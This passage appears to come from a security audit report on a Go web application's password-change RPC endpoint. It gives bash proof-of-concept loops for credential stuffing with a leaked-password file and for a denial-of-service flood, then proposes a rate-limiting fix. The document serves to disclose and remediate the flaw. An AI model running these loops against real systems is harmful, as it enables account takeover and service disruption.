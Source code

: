 2. **Credential Stuffing:**

```bash
# Test leaked credentials from other breaches
while read line; do
  user=$(echo $line | cut -d: -f1)
  pass=$(echo $line | cut -d: -f2)
  curl -X POST http://localhost:3000/api/rpc \
    -d "{\"method\":\"change-password\",\"params\":[\"$user\",\"$pass\",\"Pwned123!\"]}"
done < leaked-passwords.txt
```

3. **Denial of Service:**

```bash
# Exhaust LDAP connection pool
for i in {1..10000}; do
  curl -X POST http://localhost:3000/api/rpc \
    -d '{"method":"change-password","params":["user","wrong","pass"]}' &
done
```

**Impact:**

- **High:** Brute force password cracking
- **High:** Credential stuffing attacks
- **Medium:** LDAP server resource exhaustion
- **Medium:** Application availability degradation

**Remediation:**

Apply the existing rate limiter to the password change endpoint:

```go
// In main.go, modify handler registration
app.Post("/api/rpc", func(c *fiber.Ctx) error {
    var body struct {
        Method string   `json:"method"`
        Params []string `json:"params"`
    }

    if err := c.BodyParser(&body); err != nil {
        return c.Status(400).JSON(fiber.Map{"error": "invalid request"})
    }

    // Apply rate limiting for authentication-sensitive methods
    if body.Method == "change-password" || body.Method == "request-password-reset" {
        identifier := c.IP() // Use IP-based rate limiting
        if rateLimiter != nil && !rateLimiter.AllowRequest(identifier) {
            return c.Status(429).JSON(rpc.JSONRPCResponse{
                Success: false,
                Data:    []string{"too many requests, please try again later"},
            })
        }
    }

    return handler.Handle(c)
})
```
